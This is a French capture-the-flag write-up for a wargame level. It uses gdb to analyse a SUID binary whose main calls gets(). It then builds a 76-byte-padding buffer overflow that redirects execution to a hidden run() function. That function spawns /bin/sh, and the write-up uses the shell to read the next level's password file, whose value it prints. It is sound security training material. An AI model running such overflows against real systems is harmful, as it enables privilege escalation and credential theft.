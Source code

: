 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
  [...]
  ```
    - On a un binaire appartenant a level2 dans le home avec les droits SUID.

- `./level1`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - rien

- `gdb level1`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x08048444  run
      0x08048480  main
    [...]
    ```
    - On trouve une fonction run en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+6>
      - Initialisation de la mémoire (libère 80 octets pour la stack et aligne la mémoire)<br/><br/>
    - <+9> ... <+16>
      - Stocke l'adresse de esp + 16 dans eax
      - Stocke la valeur de eax (l'adresse de esp + 16) dans la stack (à esp)
      - Call gets() avec le paramètre stocké dans la stack<br/><br/>
    - <+21> ... <+22>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - Le call a gets() n'est pas protégé par une condition
    - La fonction run n'est pas appelée
    
  - `disas run`
    ```asm
    Dump of assembler code for function run:
       0x08048444 <+0>:	push   ebp
       0x08048445 <+1>:	mov    ebp,esp
       0x08048447 <+3>:	sub    esp,0x18
       0x0804844a <+6>:	mov    eax,ds:0x80497c0
       0x0804844f <+11>:	mov    edx,eax
       0x08048451 <+13>:	mov    eax,0x8048570
       0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
       0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
       0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
       0x0804846a <+38>:	mov    DWORD PTR [esp],eax
       0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
       0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
       0x08048479 <+53>:	call   0x8048360 <system@plt>
       0x0804847e <+58>:	leave
       0x0804847f <+59>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack et aligne la mémoire)<br/><br/>
    - <+6> ... <+41>
      - Stocke la valeur dans le registre data segment à l'adresse 0x80497c0 dans eax, puis dans edx
        - `x/s 0x80497c0`
          - `0x80497c0 <stdout@@GLIBC_2.0>:	 ""`
      - Stocke la valeur à l'adresse 0x8048570 dans eax
        - `x/s 0x8048570`
          - `0x8048570:	 "Good... Wait what?\n"`
      - Stocke la valeur de edx (stdout) dans la stack (à esp + 12)
      - Stocke 0x13 (19) dans la stack (à esp + 8)
      - Stocke 0x1 (1) dans la stack (à esp + 4)
      - Stocke la valeur de eax dans la stack (à esp)
      - Call fwrite() avec les arguments stockés dans la stack<br/><br/>
    - <+46> ... <+53>
      - Stocke la valeur à l'adresse 0x8048584 dans la stack (à esp)
        - `x/s 0x8048584`
          - `0x8048584:	 "/bin/sh"`
      - Call system() avec l'argument stocké dans la stack<br/><br/>
    - <+58> ... <+59>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction run affiche "Good... Wait what?\n" sur la sortie standard et lance un shell via la commande system()

## Exploit

- L'objectif va être de forcer l'appel de la fonction run() par la fonction main().
- On va tirer avantage de la [vulnérabilité de gets à un buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) pour écrire l'adresse de run dans l'EIP. 
- Comme vu plus haut, main alloue 80 octets dans la stack pour ses variables, on va commencer par là:
  - `python -c 'print "a" * 80' > /tmp/exploit`
  - `gdb level1`
    - `layout reg`
    - `run < /tmp/exploit`
      ```
        Starting program: /home/user/level1/level1 < /tmp/exploit

        Program received signal SIGSEGV, Segmentation fault.
        0x61616161 in ?? ()
      ```
      - Nice, on SegFault comme attendu et l'eip est réécrit avec des a:
        ```
          eip            0x61616161       0x61616161
        ```
- L' EIP étant codé sur 4 octets dans un système 32bits, on devrait pouvoir écrire l'adresse de run dans les 4 derniers octets, on vérifie avec un exploit de 76 "a" et 4 "b" :
  - `python -c 'print "a" * 76 + "b" * 4' > /tmp/exploit`
    ```
      eip            0x62626262       0x62626262 
    ```
      - Parfait, l'EIP est écrasé par les 4 derniers octets
- On a vu plus haut que l'adresse de 'run' est 0x08048444, on la passe en little endian avant de la load à la fin de notre exploit:
  - `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit`
  - `cat /tmp/exploit | ./level1`
    ```
      Good... Wait what?
      Segmentation fault (core dumped)
    ```
    - Ok, on lance bien la fonction run, mais le shell est close tout de suite, il faut [garder stdin ouvert avec cat](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process):
      > " The shell doesn't have any input - when it detects EOF it dies. " 
      - `cat /tmp/exploit - | ./level1`
        ```
          Good... Wait what?
          whoami
          level2
          cat /home/user/level2/.pass
          53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
        ```
